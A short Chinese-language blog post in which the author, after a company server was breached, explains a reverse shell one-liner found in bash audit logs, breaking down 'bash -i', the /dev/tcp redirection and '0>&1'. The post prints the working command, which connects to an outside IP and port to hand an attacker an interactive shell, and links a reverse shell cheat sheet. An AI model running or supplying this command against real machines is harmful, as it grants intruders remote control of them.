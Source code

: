 ```yaml
---
layout: post
title: 单行反弹Shell命令的理解
description: "单行反弹Shell命令的理解"
category: Shell
avatarimg:
tags: [Linux, Shell, Security]
duoshuo: true
---
```


公司的一台服务器被黑客入侵了。。。安全没做好！！！
查看bash审计日志，发现黑客执行的相关命令，其中有一条反弹Shell的命令，在被黑的服务器上执行如下：
> bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用nc等工具监听9083端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，整个表现就是被黑服务器的Shell反弹到黑客机器上了，和SSH远程登录一台服务器执行命令一样。。。

理解上面的单行命令，费了好半天，看来对bash shell的掌握还不够啊。

- 首先， bash -i开启了Shell的交互模式，这样反弹Shell后，黑客可以和它交互；
- 然后是这段： >& /dev/tcp/173.208.201.162/9083，表示bash打开到远程目标IP端口的TCP连接，并将标准出重定向到远程目标IP端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标IP端口上？（PS: 这里我不是很好理解，欢迎高手指点下。）

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对bash shell的掌握很深入了。

**Refercences: **
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)
